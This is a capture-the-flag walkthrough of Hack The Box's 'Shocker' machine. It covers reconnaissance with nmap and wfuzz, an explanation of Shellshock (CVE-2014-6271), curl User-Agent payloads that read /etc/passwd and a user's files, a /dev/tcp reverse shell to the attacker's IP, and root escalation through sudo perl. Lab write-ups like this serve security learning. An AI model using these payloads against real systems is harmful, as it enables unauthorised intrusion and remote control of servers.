# Shocker

## Reconnassance
### nmap 

```
nmap -sC -sV -oA shocker 10.129.228.8
```


- Open Port
    1. port 80 --- Apache httpd 2.4.18
    2. port 2222 --- OpenSSH 7.2p2 Ubuntu 4ubuntu2.2

### WebSite


### Directory Fuzz

- Using gobuster --> failed
```
gobuster dir -u http://shocker.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.9.txt
```


- Using wfuzz, find some path with response code 403
```
wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 -u http://10.129.228.8/FUZZ
```


- The 403 code results include
    - ```.htaccess```
    - ```.hta```
    - ```.htpasswd```
    - ```cgi-bin/```
    - ```server-status```
- And one 200 code result: ```index.html```
- With cgi-bin and apache 2.4.18, I think it is possible to has Shellshock vulnerability
- Since the loophold might be a shellshock, and shellshock is a bash related vulnerability on apache with cgi-bin path exist.
- So I using wfuzz to fuzz the file under cgi-bin path. 
```
wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt --hc 404,403 --sc 200 -u http://10.129.228.9/sgi-bin/FUZZ.sh
```


- Research on [shellshock vulnerability](https://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/)

### CVE-2014-6271 Shellshock 

- Shellshock makes achieving RCE as simple as:

> 1. Find a program that accepts input over the Internet
> 2. The input is processed and stored in an environment variable.
> 3. The program runs Bash

- Description: 
- Shellshock consists of several different vulnerabilities that relate to how Bash handles environment variables(Def in Bash: ```GREETING="Hello, World"```, the value "Hello, World" can be used again by typing ```$GREETING```).
These variables allow a user or script to define a value once and then reuse that value again by giving it's name.
- Loophold in Environment variables
>Environment variables can also accidentally leak into Bash because by default any environment variables set in the original process's environment will be set in Bash's environment. 
>This behavior can cause the unintended consequences of leaking sensitive information and create potential vulnerabilities.
- Advance to use
>Bash scripts can define functions that contain sections of code that can be reused. 
>A function is properly defined using the syntax: ```hello() { echo "Hello"; }```
>Bash scripts will define above script in an environment variable with ```hello=() { echo "Hello"; }```.
>This behavior allowed Bash scripts to export functions as environment variables and allow a sub-shell to use them. (This feature has been removed for modern versions of Bash)
- About ShellShock
>CVE-2014-6271, comes from how Bash implemented importing functions stored in environment variables.
>Whenever a new shell was created, it would automatically look through the environment variables for functions and import all of them. 
>For example, the variable ```hello=() { echo "Hello"; }``` would become ```hello() { echo "Hello"; }```. 
>However, CVE-2014-6271 observes that this behavior can be exploited by appending extra code to the end of the function definition.
>This vulnerability means that if attacker can store a malicious payload in an environment variable, they can achieve arbitrary code execution whenever a Bash shell is created. 
- Scan Sample 

>Sample 1
```
() { :; }; echo "pwned"
```
- The first half of this payload(before echo) is the definition of an anonymous function that does nothing. 
- The second half(echo one) is the malicious payload that will be executed when the function is imported. 
- Any arbitrary command or series of commands can be appended to the function definition to achieve arbitrary code execution.
- It like the line X() { :; }; echo "pwned" is passed to the Bash interpreter.

>Sample 2
```
() { :; }; ping -c 3 <ip>
```


- Attack on CGI example
```
curl -A "() { :;}; echo; /bin/cat /etc/passwd" <target>
```


## Exploit 

- According to above research, try the following payload to read ```/etc/passwd```

```
curl -A "() { :;}; echo; /bin/cat /etc/passwd" http://10.129.228.9/cgi-bin/user.sh -vv
```
- Now I know there is 2 user with bash (root, shelly)


- Let's check shelly's directory
```
curl -A "() { :;}; echo; /bin/ls -al /home/shelly" http://10.129.228.9/cgi-bin/user.sh -vv

```


- Read user flag
```
curl -A "() { :;}; echo; /bin/cat /home/shelly/user.txt" http://10.129.228.9/cgi-bin/user.sh -vv
```


- Try to create the permanent reverse shell
```
curl -A "() { :;}; echo; bash -c 'bash -i >& /dev/tcp/10.10.17.145/1337 ->&1'" http://10.129.228.9/cgi-bin/user.sh -vv
```


- Check Listener 
```
nc -nlvp 1337
```


- Get user flag: ```d6b79cfdaeb98a80f8011c430c75886f```



## Post Exploitation

- check user's privileges, check specific command 
```
sudo -l 
```


- Check [GTFObins](https://gtfobins.github.io/gtfobins/perl/) about how to escalate privilege by perl


### Privilege Escalation 

- So, let's try to escalate to root.
```
sudo perl -e 'exec "/bin/sh";'
```


- Get root flag: ```93296e82e87c41f75b8d2a17e27c15d4```



## Reference 

- [(Discussion)HTB discuss site](https://forum.hackthebox.com/t/shocker/66/11)
- [(Writeup)Hack The Box (HTB) - Shocker - Walkthrough](https://www.linkedin.com/pulse/hack-box-htb-shocker-walkthrough-abdulhakim-%C3%B6ner)

### Tools 
- [wfuzz usage](https://www.twblogs.net/a/5c8e8a3cbd9eee35cd6b1462)
- [wfuzz wordlists](https://github.com/xmendez/wfuzz/blob/master/wordlist/general/common.txt)
- [(HackTrick)wfuzz](https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz)
- [Reverse Shell Generator](https://www.revshells.com/)
- [GTFObins](https://gtfobins.github.io/gtfobins/perl/)


### CVE-2014-6271 Shellshock 
- [shellshock vulnerability](https://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/)
- [(GITHUB)comprehensive bashcheck test script](https://github.com/hannob/bashcheck)
- [(GITHUB)shellshock Introduction](https://github.com/jeholliday/shellshock)

### other
- [Count Lines in a File in Bash](https://www.baeldung.com/linux/bash-count-lines-in-file)


###### tags: `HackTheBox` `Easy` `ShellShock` `Apache` `cgi-bin` `bash` `perl` `environment` `linux`